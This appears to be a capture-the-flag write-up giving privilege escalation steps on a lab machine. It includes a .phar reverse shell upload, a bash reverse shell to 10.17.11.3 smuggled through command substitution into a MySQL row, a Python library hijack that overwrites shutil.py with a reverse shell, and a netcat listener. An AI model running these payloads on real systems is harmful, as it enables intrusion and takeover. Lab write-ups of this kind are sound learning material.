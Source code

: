 # Privilege Escalation Steps

## 1. Search for a Directory
- Log in as the `admin` user with the password `password`.
- Upload a reverse shell with a `.phar` extension and execute it to gain a shell.

## 2. Search for `test.py` in the `/opt` Directory
- Find `test.py` in the `/opt` directory.
- Gained access as the `lucien` user.

## 3. Escalate via MySQL
- Check the `.bash_history` of the `lucien` user.
- Login to MySQL and inject a reverse shell payload into the `library` database in the `dreams` table. Use this SQL command:
  ```sql
  INSERT INTO dreams (dreamer, dream) 
  VALUES ('root', '$(echo "/bin/bash -i >& /dev/tcp/10.17.11.3/9999 0>&1" | bash)');

```

- Execute the payload as the `death` user (after verifying `sudo -l` permissions) to get a shell as `death`.

## 4. Escalate via `restore.py`

- Locate the `restore.py` file in the `morpheus` user's home directory.
- Modify the Python library in `/usr/lib/python3.8/shutil.py` to include a reverse shell. Use this command:
- ```echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/9001 0>&1'\")" > /usr/lib/python3.8/shutil.py
- Wait for `restore.py` to be executed as the `morpheus` user. It will import the payload from `shutil.py` and give you a reverse shell as `morpheus`.

---

### Key Points

- **Reverse Shell**: Always ensure the reverse shell listener is active on your machine (e.g., with `nc -lvnp 9999`).
- **MySQL Injection**: The reverse shell payload inserted into the `library` database will execute when the `death` user runs the query.
- **Python Payload**: The `restore.py` file will execute the reverse shell if the script is triggered, giving you a reverse shell as `morpheus`.
- done.
